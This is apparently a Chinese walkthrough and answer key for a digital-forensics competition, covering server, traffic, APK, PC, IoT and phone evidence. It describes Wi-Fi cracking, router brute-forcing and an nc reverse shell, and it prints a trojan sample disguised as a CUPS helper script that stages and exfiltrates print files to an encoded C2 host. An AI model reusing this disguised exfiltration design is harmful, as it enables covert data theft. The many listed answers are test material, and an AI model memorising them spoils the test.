## <font style="color:#000000;">前言</font>
手机.rar格式放火眼解析不出，解压后才可以。

**<font style="color:rgba(0, 0, 0, 0.88);background-color:rgba(0, 0, 0, 0.02);">检材下载</font>**

<font style="color:rgba(0, 0, 0, 0.88);background-color:rgba(0, 0, 0, 0.02);">下载链接：</font>[<font style="background-color:rgba(0, 0, 0, 0.02);">https://pan.baidu.com/share/init?surl=IUj600YuLJeYvfIoY_yryQ&pwd=smh3</font>](https://pan.baidu.com/share/init?surl=IUj600YuLJeYvfIoY_yryQ&pwd=smh3)

<font style="color:rgba(0, 0, 0, 0.88);background-color:rgba(0, 0, 0, 0.02);">哈希值：</font>`<font style="color:rgba(0, 0, 0, 0.88);background-color:rgba(150, 150, 150, 0.1);">MD5值：be07444b014fdb86393f83139aa20c15</font>`

<font style="color:rgba(0, 0, 0, 0.88);background-color:rgba(0, 0, 0, 0.02);">挂载/解压密码：</font>`<font style="color:rgba(0, 0, 0, 0.88);background-color:rgba(150, 150, 150, 0.1);">GQ7aXryvOC*M8qG*eXa19K9*g&jtHS*Gtrimps@Qx*aYt4oRwwK*HeN0A$#EPv*u</font>`

<font style="color:rgba(0, 0, 0, 0.88);background-color:rgba(150, 150, 150, 0.1);">参考wp：</font>

[https://mp.weixin.qq.com/s/-MZFKRd9K8rRfvik5BELYQ](https://mp.weixin.qq.com/s/-MZFKRd9K8rRfvik5BELYQ)

[https://mp.weixin.qq.com/s/mluuwiB9LbFaIurMuFkVug](https://mp.weixin.qq.com/s/mluuwiB9LbFaIurMuFkVug)

[https://forensics.xidian.edu.cn/wiki/Shuzheng2025Preliminary/](https://forensics.xidian.edu.cn/wiki/Shuzheng2025Preliminary/)

## <font style="color:#000000;">一、服务器取证</font>
### <font style="color:#000000;">服务器重构</font>
### <font style="color:#000000;">1.node1节点的磁盘设备SHA256值前六位是？(字母全大写，答案格式：AAAAAA)</font>
<font style="color:#000000;">一旦仿真镜像，日志就会写入，导致磁盘哈希发生变化。因此要在最开始算出SHA256。</font>



<font style="color:#000000;">83629C     。。对吗？错了！</font>

<font style="color:#000000;">node1不等同于检材一</font>

<font style="color:#000000;">四个检材分别是：</font>








<font style="color:#000000;">所以是检材二</font>

<font style="color:#000000;">FC9A341213AC06448213480AA639834A472D7138B70FA9A3A495A469B0281BE5</font>

<font style="color:rgb(82, 196, 26);">FC9A34</font>

### <font style="color:#000000;">2.集群配置了多少个node节点？（答案格式：1）</font>
<font style="color:#000000;">法一：由上图可知</font>

<font style="color:#000000;">法二：找到master，输入命令kubectl get nodes即可。</font>

<font style="color:rgb(82, 196, 26);">2</font>

### <font style="color:#000000;">3.嫌疑人于什么时间修改master节点的root密码？（使用双位数格式，答案格式：00:00:00）</font>
<font style="color:#000000;">法一：</font>

法二：在 CentOS 7 系统中，可以通过查看 /var/log/secure 日志文件来确定修改 root 密码的时间。

打开终端，输入命令 **sudo grep -i "password changed" /var/log/secure**


<font style="color:rgb(82, 196, 26);">09:35:59</font>

### <font style="color:#000000;">4.Docker的安装日期是？（使用双位数格式，答案格式：01月01日）</font>


<font style="color:rgb(82, 196, 26);">04月08日</font>

### <font style="color:#000000;">5.Docker通过配置守护进程以使用全局代理，该代理地址的端口是？（答案格式：1）</font>


### <font style="color:#000000;">6.发卡网站使用的Mysql数据库对外访问端口是？（答案格式：1）</font>
### <font style="color:#000000;">7.发卡网站部署使用的镜像名称是？（答案格式：root/root）</font>
### <font style="color:#000000;">8.当前Telegram群管机器人使用的容器ID的前六位是？（答案格式：123abc）</font>
### <font style="color:#000000;">9.发卡网站使用的缓存数据库是？（答案格式：mysql）</font>
### <font style="color:#000000;">10.集群中配置的发卡网站代码运行所在的物理目录是？（答案格式：/root/root）</font>
### <font style="color:#000000;">11.Telegram群管机器人配置的API代理域名是？（答案格式：[www.xxx.com](</font>[https://yuanbao.tencent.com/chat/naQivTmsDa/www.xxx.com)](https://yuanbao.tencent.com/chat/naQivTmsDa/www.xxx.com))<font style="color:#000000;"></font>
### <font style="color:#000000;">12.嫌疑人在Telegram上创建的群名称是？（答案格式：比武群）</font>
### <font style="color:#000000;">13.统计嫌疑人在Telegram上创建的群中2025年6月之后成功入群的人数为？（答案格式：1）</font>
### <font style="color:#000000;"> </font>
### <font style="color:#000000;">14.据嫌疑人交代曾在发卡网上删除过一条订单数据，请找出该删除订单的订单号是？（答案格式：请按实际值填写）</font>
### <font style="color:#000000;"> </font>
### <font style="color:#000000;">15.发卡网站上2025年6月之后订单交易成功的总金额是？忽略被删除的数据（答案格式：1）</font>
### <font style="color:#000000;"> </font>
### <font style="color:#000000;">16.发卡网站的后台访问路径是？（答案格式：/root）</font>
### <font style="color:#000000;">17.计算出用户密码算法中Salt的值，并进行Base64编码，结果是？（答案格式：请按实际值填写）</font>
### <font style="color:#000000;">18.发卡网站配置的邮件发送人地址是？（答案格式：abc@abc.com）</font>
### <font style="color:#000000;"> </font>
### <font style="color:#000000;">19.当前发卡网站首页仪表盘中显示的发卡网站版本为？（答案格式：1.1.1）</font>
### <font style="color:#000000;"> </font>
### <font style="color:#000000;">20.当前发卡网站中绑定的订单推送Telegram用户id为（答案格式：请按实际值填写）</font>


## <font style="color:#000000;">二、流量包分析</font>
### <font style="color:#000000;">21.黑客攻击的目标路由器SSID为 （答案格式：请按实际值填写）</font>
<font style="color:#000000;">求SSID，选择过滤条件</font>`**<font style="color:#000000;background-color:rgb(235, 238, 242);">wlan.fc.type_subtype == 0x05</font>**`<font style="color:rgb(15, 17, 21);"> 或 </font>`**<font style="color:#000000;background-color:rgb(235, 238, 242);">wlan.fc.type_subtype == 0x08</font>**`

**<font style="color:#000000;">解释：</font>**`<font style="color:#000000;background-color:rgb(235, 238, 242);">type_subtype</font>`<font style="color:#000000;"> 在 Wireshark 过滤器中表示帧的类型和子类型。  
</font><font style="color:#000000;">常见相关子类型：</font>

+ `<font style="color:#000000;background-color:rgb(235, 238, 242);">0x08</font>`<font style="color:#000000;"> </font><font style="color:#000000;">→</font><font style="color:#000000;"> </font>**<font style="color:#000000;">Beacon frame</font>**<font style="color:#000000;">（AP 定期发送，包含 SSID、速率等信息）</font>
+ `<font style="color:#000000;background-color:rgb(235, 238, 242);">0x05</font>`<font style="color:#000000;"> → </font>**<font style="color:#000000;">Probe response</font>**<font style="color:#000000;">（AP 对 Probe request 的应答，也包含 SSID）</font>

<font style="color:#000000;">这两种帧都是由</font>**<font style="color:#000000;">无线接入点（AP / 路由器）</font>**<font style="color:#000000;">发出的，并且会携带 </font>**<font style="color:#000000;">SSID</font>**<font style="color:#000000;"> 信息。</font>

<font style="color:#000000;"></font>


<font style="color:#000000;">现在需要确定哪一个是被攻击的目标服务器，当进行路由器连接操作时，会发送</font>**<font style="color:#000000;">Association Request</font>**<font style="color:#000000;">，其中就包含目标SSID，此时选择过滤</font>**<font style="color:#000000;background-color:rgb(235, 238, 242);">wlan.fc.type_subtype == 0x00</font>**<font style="color:#000000;">，得到答案：</font>

<font style="color:rgb(82, 196, 26);"> laozhaoWIFI   </font>

### <font style="color:#000000;">22.黑客成功捕获了WIFI中WPA协议握手包，其中有效握手包组数为(完整握手为一组)（答案格式：1）</font>


<font style="color:#000000;">点一个可以显示该组。一共看到四组完整的握手</font>

<font style="color:rgb(82, 196, 26);">4</font>

### <font style="color:#000000;">23.黑客爆破得出的WiFi密码为（提示：密码由小写英文字母和数字组成）（答案格式：abcd1234）</font>
<font style="color:#000000;">搜索“key"得到：</font>

符合题目格式。

<font style="color:rgb(82, 196, 26);">password1110</font>

### <font style="color:#000000;">24.黑客成功连接Wifi后，发现路由器操作系统为？（答案格式：请按实际值填写）</font>
<font style="color:#000000;">操作系统直接搜</font>**<font style="color:#000000;">distribution</font>**

<font style="color:rgb(82, 196, 26);">ImmortalWrt</font>

### <font style="color:#000000;">25.黑客对路由器后台进行爆破攻击，该路由器后台密码为（答案格式：请按实际值填写）</font>
<font style="color:#000000;">直接追踪流， 找到那几个 password 的 POST 帧，找被攻击方返回的状态码, 判断哪一个登陆成功。</font>





<font style="color:rgb(82, 196, 26);"> password  </font>

### <font style="color:#000000;">26.黑客通过修改路由器设置，将被劫持的域名为（答案格式：[www.xxx.com]）</font>


### <font style="color:#000000;">27.黑客在路由器管理后台发现FTP服务配置，FTP登录密码为？（答案格式：请按实际值填写）</font>
<font style="color:rgb(82, 196, 26);">mast</font>

### <font style="color:#000000;">28.黑客通过FTP上传了一个压缩包文件，该文件内容为（答案格式：请按实际值填写）</font>




<font style="color:#000000;">保存后发现要解压密码</font>

<font style="color:#000000;">爆破密码：</font>


<font style="color:rgb(82, 196, 26);"> code:123456789  </font>

### <font style="color:#000000;">29.黑客通过路由器执行shell脚本，反弹shell的监听端口为（答案格式：1）</font>
<font style="color:rgba(0, 0, 0, 0.87);">执行shell脚本, 都会想到用 </font>`<font style="color:rgb(54, 70, 78);background-color:rgb(245, 245, 245);">/bin/sh</font>`<font style="color:rgba(0, 0, 0, 0.87);">。因为是 HTTP 传的明文, 所以直接搜索 </font>`<font style="color:rgb(54, 70, 78);background-color:rgb(245, 245, 245);">/bin/sh</font>`<font style="color:rgba(0, 0, 0, 0.87);">, 可以看到 nc 连接的端口是 4445,即反弹 shell 的监听端口是 4445。</font>


### <font style="color:#000000;">30.黑客通过反弹shell成功控制目标路由器后，总共执行了多少条命令（答案格式：1)</font>


## <font style="color:#000000;">三、APK程序分析</font>
### <font style="color:#000000;">31.apk 的版本名称为？ （答案格式：1.1.1）</font>
或者

<font style="color:rgb(82, 196, 26);">3.0.12</font>

### <font style="color:#000000;">32.在该APP中，调用了哪个System的方法用于获取本地系统的时间戳？（答案格式：MainActivity）</font>
<font style="color:rgba(0, 0, 0, 0.87);">分析的第一件事是查壳</font>



一键脱壳

但是我似乎看不出来，可能脱壳没完全

用jeb脱壳




<font style="color:rgb(82, 196, 26);"> currentTimeMillis</font>

### <font style="color:#000000;">33.apk运行后getVer()的返回值是多少？（答案格式：1.0.0）</font>
getVer()函数是静态函数，直接使用frida主动调用可以得到结果

```java
(() => {
 function getVer() {
    Java.choose("net.net.MainActivity", {
        onMatch: function (instance) {
            console.log(MainActivity instance found: ${instance});
        console.warn(net.net.MainActivity.getVer():${instance.getVer()});
    },
    onComplete: function () {
        console.log("MainActivity instance search completed");
    },
});
}
function main() {
    Java.perform(() => {
                 getVer();
});
}
main();
})();

```


### <font style="color:#000000;">34.apk运行后需要通过一个http get请求才能打开第二个界面，给出该请求URL？ （答案格式：[</font>[http://www.xxx.com/test?a=1](http://www.xxx.com/test?a=1)](http://www.xxx.com/test?a=1](http://www.xxx.com/test?a=1))<font style="color:#000000;">）</font>
<font style="color:#000000;"> </font>

### <font style="color:#000000;">35.apk第二界面的8位授权码是什么？ （答案格式：11111111）</font>


<font style="color:#000000;"></font>

## <font style="color:#000000;">四、二进制程序分析</font>
### <font style="color:#000000;">36.安装该程序后，该恶意程序的可执行文件所在的直接父目录名称是什么为？（答案格式：root）</font>


下载得桌面快捷方式，跳转到文件所在位置：



<font style="color:rgb(82, 196, 26);">proxy</font>

### <font style="color:#000000;">37.解密文件名为RnRGaWxlcy5lZGIiL的文件时所使用的key是什么？（答案格式：请按实际值填写）</font>
### <font style="color:#000000;">38.解密文件RnRGaWxlcy5lZGIiL成功后，请分析并给出解密后的文件的入口点地址？（答案格式：0x180000000）</font>
### <font style="color:#000000;">39.加密文件名为6c051a72b91a1的文件时所使用的密钥是多少？（答案格式：请按实际值填写）</font>
### <font style="color:#000000;">40.6c051a72b91a1.1文件解密后的md5值后六位是多少？（字母全大写，答案格式：AAAAAA）</font>
<font style="color:#000000;"> </font>

## <font style="color:#000000;">五、计算机取证分析</font>
### <font style="color:#000000;">41.操作系统的Build版本号是？（答案格式：1）</font>


<font style="color:rgb(82, 196, 26);">19044</font>

### <font style="color:#000000;">42.操作系统设置的账户密码最长存留期为多少天？（答案格式：1）</font>
法一：cmd基础命令 **net accounts**



法二：<font style="color:rgb(15, 17, 21);">打开本地组策略编辑器</font>

1. <font style="color:rgb(15, 17, 21);">按</font><font style="color:rgb(15, 17, 21);"> </font>`<font style="color:rgb(15, 17, 21);background-color:rgb(235, 238, 242);">Win + R</font>`<font style="color:rgb(15, 17, 21);"> </font><font style="color:rgb(15, 17, 21);">键</font>
2. <font style="color:rgb(15, 17, 21);">输入 </font>`<font style="color:rgb(15, 17, 21);background-color:rgb(235, 238, 242);">gpedit.msc</font>`<font style="color:rgb(15, 17, 21);background-color:rgb(235, 238, 242);">回车</font>


<font style="color:rgb(82, 196, 26);">68</font>

### <font style="color:#000000;">43.用户2登陆密码NT哈希值后六位是？（字母全大写，答案格式：AAAAAA）</font>


<font style="color:rgb(82, 196, 26);">A9C708</font>

### <font style="color:#000000;">44.蓝牙mac地址是多少？（答案格式：AA-AA-AA-AA-AA-AA）</font>


<font style="color:rgb(82, 196, 26);">9C-B6-D0-04-C9-CC</font>

### <font style="color:#000000;">45.SafeImager的产品序列号后四位是？（字母全大写，答案格式：AAAAAA）</font>


<font style="color:rgb(82, 196, 26);"> 09C4  </font>

### <font style="color:#000000;">46.123.VHD所处的结束扇区是？（答案格式：1 ）</font>
vhd和虚拟机有关

<font style="color:#000000;">在X-ways里看</font>


<font style="color:#DF2A3F;">19276304</font>

<font style="color:#DF2A3F;">错的，这是开始扇区</font>

怎么找结束扇区呢？

<font style="color:rgba(0, 0, 0, 0.87);">切换到文件视图, 按下快捷键 Ctrl + End 跳转至文件尾, 再切换回分区视图, 即可看到文件结尾所处的扇区号:</font>

<font style="color:rgb(82, 196, 26);">27445255</font>

### <font style="color:#000000;">47.用户在BitLocker加密分区最后修改的文件是?（答案格式：abcd.txt）</font>
打开123.vhd（F盘）找到文件：


恢复秘钥：625075-617309-532576-720302-040975-309232-451924-426679

<font style="color:rgb(82, 196, 26);">资料1.txt</font>

### <font style="color:#000000;">48.用户连接192.168.114.129时用的会话名称是？（答案格式：按照实际情况填写）</font>


<font style="color:rgb(82, 196, 26);"> 连接阿里云 </font>

### <font style="color:#000000;">49.用户创建存储虚拟币钱包地址页面的时间是？（使用双位数格式，答案格式：01月01日）</font>
这有个教训：火眼仿真时尽量不要重置密码，最好保留，否则这个应用需要key登入账户。

<u><font style="color:rgba(0, 0, 0, 0.87);">冷知识：Anytype 设置了使用 Windows 用户凭证解锁, 因此只有在仿真时不重置密码的情况下才能自动解锁</font></u>

显然货币——currency

<font style="color:#000000;"></font>

<font style="color:rgb(82, 196, 26);"> 10月07日  </font>

### <font style="color:#000000;">50.用户的虚拟币钱包地址是？（答案格式：按照实际情况填写）</font>


<font style="color:#000000;">看上去是base64编码，提示34个字符</font>

<font style="color:#000000;">赛博厨子魔法棒不停炒菜</font>



炒到无法操作为止。确实是34字符

小心求证，也确有其事。

<font style="color:rgb(82, 196, 26);">3HrdpWM8ZrBVw9yu8jx1RoNNK6BZxwsHd9</font>

### <font style="color:#000000;">51.用户VC加密容器的密码是？（答案格式：按照实际情况填写）</font>


258369

火眼寻找各部分




应该是要合并到一起才能解压出完整文件

cmd命令**copy /B**



**attrib -r 清除只读属性**




### <font style="color:#000000;">52.用户在生活中使用的代号是？（答案格式：按照实际情况填写）</font>
桌面一个可疑文件


方法一：运气好翻到检材自带工具


方法二：音频类一般用Audacity


直接看没有摩斯密码之类的。

看频谱图



<font style="color:rgb(82, 196, 26);">小胖</font>

### <font style="color:#000000;">53.李安东的银行卡归属哪个银行？（答案格式：农业银行）</font>




密码爆破


688561


<font style="color:rgb(82, 196, 26);">交通银行</font>

### <font style="color:#000000;">54.请分析某市10月6日最高气温是？（答案格式：1）</font>


打开发现需要密码

复制到桌面，随波逐流走一波


里面气温文件还是显示加密，再走一遍







<font style="color:rgb(82, 196, 26);">21</font>

### <font style="color:#000000;">55.用户的BitLocker密码是？（答案格式：按照实际情况填写）</font>


<font style="color:#DF2A3F;">5fb19296b5c8a4b663347b7ba471e86e</font>

<font style="color:#DF2A3F;">但是不对</font>

<font style="color:#000000;">正确方法是解电脑邮件附件图片隐写。。如何想到这么做？可能因为，这玩意出现在这太诡异猎奇了</font>



我本来还放主机分析的。其实虚拟机有解密软件。





<font style="color:rgb(82, 196, 26);"> SZBJSJTM2025</font>

### <font style="color:#000000;">56.用户办公室的门禁密码是？（答案格式：按照实际情况填写）</font>


### <font style="color:#000000;">57.用户使用的以D开头的解密程序的MD5值后六位是？（字母全大写，答案格式：AAAAAA）</font>
<font style="color:#000000;"></font>

### <font style="color:#000000;">58.木马程序运行至系统断点前加载了几个动态链接库？（答案格式：1）</font>
<font style="color:#000000;"></font>

<font style="color:#000000;"></font>

### <font style="color:#000000;">59.木马产生的程序名称是什么？（答案格式：abcd.txt）</font>
<font style="color:#000000;"></font>

### <font style="color:#000000;">60.木马尝试访问的域名是什么？（答案格式：按照实际情况填写）</font>
<font style="color:#000000;"></font>

### <font style="color:#000000;">61.分析计算机内存检材，此内存镜像制作时的系统时间是？（使用双位数格式，答案格式：01月01日）</font>
<font style="color:#000000;"></font>

### <font style="color:#000000;">62.分析计算机内存检材，用户Yiyelin的用户表示后4位是？（答案格式：1111）</font>
<font style="color:#000000;"></font>

### <font style="color:#000000;">63.分析计算机内存检材，计算机的CPU型号是什么？（答案格式： i9-1110U）</font>
<font style="color:#000000;"></font>

### <font style="color:#000000;">64.分析计算机内存检材，wps.exe的PID是？（答案格式：1）</font>
<font style="color:#000000;"></font>

### <font style="color:#000000;">65.分析计算机内存检材，此计算机开机自启动的远控软件名称是？（答案格式：abcd.txt ）</font>
## <font style="color:#000000;">六、物联网设备取证分析</font>
### <font style="color:#000000;">66.打印机的主机名称是什么？(答案格式：root)</font>


<font style="color:rgb(82, 196, 26);">print</font>

### <font style="color:#000000;background-color:#E4495B;">67.</font><font style="color:#000000;">打印文件存储在哪个目录？(答案格式：/root/root)</font>



直接看没有数据

<font style="color:rgb(82, 196, 26);">/var/spool/cups</font>

### <font style="color:#000000;">68.同一天，打印两份文件的用户是谁？(答案格式：root)</font>
<font style="color:#000000;">上题说，日志文件路径/var/log/cups/</font>

一个是连接日志，一个是报错日志。看看page的信息

<font style="color:rgb(82, 196, 26);">alice</font>

### <font style="color:#000000;">69.分析物联网检材，木马运行后，自身产生的进程ID是多少？（答案格式：1）</font>
<font style="color:#000000;">在做这题前，至少我们该知道木马在哪，长什么样</font>

<font style="color:#000000;">我们可以先使用sudo ss -tunap查看一下网络监听情况（虚拟机是可以搭起来的，虽然是arm架构，但是是可以搭起来的）</font>



<font style="color:#000000;">然而我们什么都没能找到</font>

<font style="color:#000000;">因此动态似乎不行，木马似乎在休眠期，我们尝试静态搜索</font>


<font style="color:#000000;">根据ai一步步走就好，由于70题在那边问执行周期，所以我们可以先去那边看看，因为木马很有可能就是一个非标定时任务</font>

<font style="color:#000000;">我们知道格式应该是</font>`<font style="color:#000000;">*/x * * * *</font>`<font style="color:#000000;">寻找一下</font>

<font style="color:#000000;">可以看到有一个healthcheck</font>



<font style="color:#000000;">因为这个是完全非标准的名称情况</font>


<font style="color:#000000;">在这边我们看到了70题的答案，而这个/usr/local/bin/cups-helper也被列为重点木马可疑对象，它故意改名为了cups-healper，就是试图伪装成与打印服务（CUPS）相关的合法程序</font>



<font style="color:#000000;">是个python程序</font>

```markdown
#!/usr/bin/python3
# -*- coding: utf-8 -*-

# A helper script to manage CUPS spooling and perform health checks.
# Do not modify unless you are an authorized technician.
# KVJEYIHHXSLOPIEBEAWT4ICCMFZWKNRUEDT3ZFXHUCASALJ6EDS23F7HVSTOJOFS4WHY32F5VQ======

import os
import shutil
import socket
import datetime
import re

# --- Configuration ---
# C2 server for uploading diagnostic data
C2_SERVER = "zUTMugDMx4SO5EjL1gTM"
C2_PORT = "zQDN"

# Spool directory to monitor
SPOOL_DIR = "GJTJzBXdjZkMlw2bvB3cGJTJyFmdGJTJ"

# Define staging directory for processing before exfiltration
STAGING_DIR = "GJTJlh2YhNmLGJTJw1GdGJTJ"

# Log file for upload activities
LOG_FILE = "==wZvxmLkF2bsBXdGJTJlJXYoNnRyUCbhN2bs5iRyUCdv9mcGJTJ"

# Keyword to identify sensitive documents for "special handling"
WATCHED_KEYWORD = "=UmcpZmbvdWYyREMyUCdjVmavJHU"
# --- End Configuration ---


def log_message(message):
    """Appends a timestamped message to the log file."""
    now = datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S")
    full_message = f"[{now}] {message}\n"
    with open(LOG_FILE, 'a') as f:
        f.write(full_message)

def scan_and_stage():
    """(Simulated) Scans the spool directory and copies sensitive files to the staging area."""
    pass

def exfiltrate_data():
    """(Simulated) 'Uploads' files from the staging directory to the C2 server."""
    if not os.path.exists(STAGING_DIR):
        return

    staged_files = os.listdir(STAGING_DIR)
    if not staged_files:
        return

    try:
        # The system log entry shows this connection attempt.
        # This part of the script provides the "ground truth" for that log.
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.settimeout(5)
        # sock.connect((C2_SERVER, C2_PORT)) 
        
        for filename in staged_files:
            log_message(f"SUCCESS: Uploaded {filename} to {C2_SERVER}")
        
        sock.close()
    except Exception as e:
        log_message(f"ERROR: Could not connect to C2 server: {e}")


def main():
    scan_and_stage()
    exfiltrate_data()

if __name__ == "__main__":
    main()
```



<font style="color:#000000;">开头甚至还在演，说自己就是个合法合规的，完全没事的，别改</font>

<font style="color:#000000;">至此我们也是找到了木马程序，尽管里边是一堆的加密文字</font>

<font style="color:#000000;">但我们还是可以一眼看见</font>



<font style="color:#000000;">这玩意要远程连到C2服务器上（这也就是第72的问题）</font>


<font style="color:#000000;">火眼在系统日志很容易看见这个，毕竟就4条系统日志</font>

<font style="color:#000000;">所以我们可以推断这个是送到了我们185.199.108.153:443上去（这也就是第72的答案）</font>


<font style="color:#000000;">而本题的答案其实就在后边（你怎么藏那么深！！）</font>

<font style="color:#000000;">我们拖动进度条就能看到，这个木马的进程号就是2177</font>


### <font style="color:#000000;">70.分析物联网检材，系统中存在一个非标定时任务，这个任务每隔多少分钟执行？（答案格式：1）</font>
<font style="color:#000000;">详情思路可以看69的叙述，我们在放定时任务的地方看到了一个长的奇奇怪怪的，大概就是它/etc/cron.d/healthcheck</font>



<font style="color:#000000;">这个10单位就是分钟</font>

<font style="color:#000000;">所以答案就是10</font>


### <font style="color:#000000;">71.分析物联网检材，木马程序会窃取文档暂存在隐藏目录，这个目录的绝对路径？（/root/root/）</font>
<font style="color:#000000;"></font>

<font style="color:#000000;"></font>

<font style="color:#000000;"></font>

### <font style="color:#000000;">72.分析物联网检材，木马程序将数据上传到的服务器的IP地址是多少？（答案格式：1.1.1.1）</font>
<font style="color:#000000;"></font>

### <font style="color:#000000;">73.根据木马程序，它监视的关键字是什么？（答案格式：按照实际情况填写）</font>


## <font style="color:#000000;">七、移动终端取证分析</font>
### <font style="color:#000000;">74.微信ID:wxid_f4s0jmpvrc522对应的手机号后四位为（答案格式：1111）</font>


<font style="color:rgb(82, 196, 26);">8390</font>

### <font style="color:#000000;">75.“华为应用市场”第一次安装日期为（使用双位数格式，答案格式：01月01日）</font>


<font style="color:rgb(82, 196, 26);">09月24日</font>

### <font style="color:#000000;">76.找出检材中钱包APP，请列出该APP中ETH地址后六位是（字母全大写，答案格式：AAAAAA）</font>


<font style="color:rgb(82, 196, 26);">3FE61F</font>

### <font style="color:#000000;">77.分析出检材中包含“南昌西站”的图片，计算该图片的MD5后六位？（字母全大写，答案格式：AAAAAA）</font>
相册翻一翻就看到了，考验眼力

25DEF5E31002F14894ADEF17D585A51D

<font style="color:rgb(82, 196, 26);">85A51D</font>

### <font style="color:#000000;">78.手机相册中有张“imtoken助记词1.PNG”图片被破坏，请修复该图片，列出该图片中第三个单词。（答案格式：按照实际情况填写）</font>
索引搜索，回到原始位置




先复制到桌面，再放入随波逐流自动修复图片



<font style="color:rgb(82, 196, 26);">boost</font>

### <font style="color:#000000;">79.找出一张PNG图片，该图片上显示“助记词2”，请列出该图片上显示的第二个单词。（答案格式：按照实际情况填写）</font>


<font style="color:rgb(82, 196, 26);">delay</font>

### <font style="color:#000000;">80.找出检材中显示“助记词3”的文档，列出该文档中记录的第三个助记词单词。（答案格式：按照实际情况填写）</font>



改成UTF-8编码方式：



<font style="color:rgb(82, 196, 26);">quarter</font>

### <font style="color:#000000;background-color:#E4495B;">81.</font><font style="color:#000000;">分析出该组助记词正常顺序中最后一个单词（已知助记词1、助记词2、助记词3中的单词顺序有被调整）。（答案格式：按照实际情况填写）</font>
**助记词1：movie unlock boost segment**

**助记词2：foil delay paddle obtain**

**助记词3：student electric quarter clerk**

当时不知道怎么排序，卡了很久

好用的工具：

[https://github.com/WXjzcccc/recoverMnemonic](https://github.com/WXjzcccc/recoverMnemonic)

需要配置

1. <font style="color:rgb(15, 17, 21);">✅</font><font style="color:rgb(15, 17, 21);"> Go</font>
2. <font style="color:rgb(15, 17, 21);">✅</font><font style="color:rgb(15, 17, 21);"> Git</font>
3. <font style="color:rgb(15, 17, 21);">✅</font><font style="color:rgb(15, 17, 21);"> Node.js和npm</font>
4. <font style="color:rgb(15, 17, 21);">✅</font><font style="color:rgb(15, 17, 21);"> 前端依赖</font>
5. <font style="color:rgb(15, 17, 21);">✅</font><font style="color:rgb(15, 17, 21);"> Vite</font>

<font style="color:rgba(0, 0, 0, 0.87);">0x304fEd2927f47692E50158A1148a1B65503FE61F</font>

神器

<font style="color:rgb(82, 196, 26);">segment</font>

### <font style="color:#000000;">82.分析出邮箱中收件人QQ号为“850563586”的姓名（答案格式：按照实际情况填写）</font>


<font style="color:rgb(82, 196, 26);">刘佳雨</font>

### <font style="color:#000000;">83.得知机主通过某个应用给HHshAL发送了一个文档，该应用的数据包名是什么？（答案格式：com.test）</font>
<font style="color:#000000;">HHshAL找到天荒地老。</font>

<font style="color:#000000;">思路：查看已安装应用列表，除了微信和qq外还有几个可疑应用包名最后确定为dingtong.saichuang，再通过</font>**<font style="color:#000000;">数据库</font>**<font style="color:#000000;">再次确认。</font>



<font style="color:#000000;">一开始打不开数据库。后知后觉，这其实是加密过的。</font>


<font style="color:#000000;">我们需要分析apk，找出密码，进行解密，才能查看dingtong.db</font>


<font style="color:#000000;">先找主入口</font>

<font style="color:#000000;">然后进去看看 </font>


<font style="color:#000000;">这边我们可以找到onCreate部分，我们去这边看看</font>



<font style="color:#000000;">在com.example.dingtong.Myapplication.onCreate()里我们可以看到对于这个加密数据库的使用情况</font>


<font style="color:#000000;">通过分析，这个参数很有可能就是加密密码</font>



<font style="color:#000000;">定位过去，我们成功找到了数据库打开的密码，也就是第84的答案</font>

<font style="color:#000000;">@1@#!aajsk1*JKJ</font>

<font style="color:#000000;">我们前去DB Browser打开</font>

<font style="color:#000000;">选择SQLCipher3</font>

<font style="color:#000000;">这边就可以看到数据库内部数据了</font>





<font style="color:#000000;">在这边我们成功找到了HHshAL这位关键人员</font>



<font style="color:#000000;">这边也可以看到机主通过某个应用给HHshAL发送了一个文档</font>

<font style="color:#000000;">因此本题的答案就是这个软件的包名dingtong.saichuang</font>


### <font style="color:#000000;">84.接上题，该应用聊天记录数据库的打开密码是什么？（答案格式：按照实际情况填写）</font>


<font style="color:#000000;">做题步骤在83题中</font>

<font style="color:#000000;">@1@#!aajsk1*JKJ</font>

<font style="color:#000000;"></font>

### <font style="color:#000000;">85.接上题，机主发送的这个加密文档，打开密码是什么？（答案格式：按照实际情况填写）</font>


<font style="color:#000000;">在83题文件发完的下一句就是密码</font>

<font style="color:#000000;">一眼摩斯密码</font>

<font style="color:#000000;">--.-/.--/./.-./-/-..../-..../-..../</font>



<font style="color:#000000;">所以就是QWERT666</font>


<font style="color:#000000;"></font>

### <font style="color:#000000;">86.厉明的身份证地址登记的门牌号是多少？？（答案格式：1）</font>
<font style="color:#000000;">手机做到这边基本上就是各种</font>**<font style="color:#000000;">apk的数据库分析</font>**<font style="color:#000000;">了</font>

<font style="color:#000000;">有个可疑软件还没用上。</font>



<font style="color:#000000;">因此我们对此展开调查</font>


<font style="color:#000000;">定位到内容文件的数据库还是蛮方便的</font>



<font style="color:#000000;">进去就看见个Password</font>

<font style="color:#000000;">然后是两个文件对应的密码</font>

<font style="color:#000000;">这边题目问身份证，那我们就打开这个身份证文件</font>

<font style="color:#000000;">bwX2ZEfE9就是密码</font>


<font style="color:#000000;">打开都不用筛查，这边其实复杂一些可以OCR然后筛查？</font>

<font style="color:#000000;">总之就一张</font>


<font style="color:#000000;">所以家在722号，得解</font>

<font style="color:#000000;"></font>

### <font style="color:#000000;">87.分析出“important1.xlsx”文件中体现的“金达欣”银行卡后六位？（答案格式：111111）</font>


<font style="color:#000000;">上一题我们也找到了这个important1.xlsx的密码3;s=]-</font>

<font style="color:#000000;">而这个文件在找助记词3的时候就一起带出来了</font>



<font style="color:#000000;">很容易就找到了，找到之后的后六位就是935629</font>

<font style="color:#000000;"></font>

### <font style="color:#000000;">88.接上题，保存“important1.xlsx”打开密码数据的应用，该应用的启动密码是什么？（答案格式：按照实际情况填写）</font>
<font style="color:#000000;">这个应用我们知道了就是那个密信，但是干在火眼分析中什么都找不到启动密码</font>

<font style="color:#000000;">所以我们考虑仿真一下，然后利用MT来替换数据库，最后看看</font>

<font style="color:#000000;">我们将</font><font style="color:rgb(77, 77, 77);">C:\hlnet\3-1761962929\data\data\com.android.mxt文件包直接复制粘贴进C:\Users\用户名\Documents\leidian9\Pictures</font>

<font style="color:rgb(77, 77, 77);">然后去模拟器的中复制 接下来去mt里面的左侧，进入/storage/emulated/0/Pictures/（这是雷电的共享目录），右侧就是data/data 长按复制（注意这边右边一定要是data才行）</font>

<font style="color:rgb(77, 77, 77);">可以把安装包也扔到共享目录</font>

<font style="color:rgb(77, 77, 77);">然后直接先下，下完之后替换内容文件就好了</font>


<font style="color:#000000;">先安装，然后再替换，看到下边算是成功了</font>



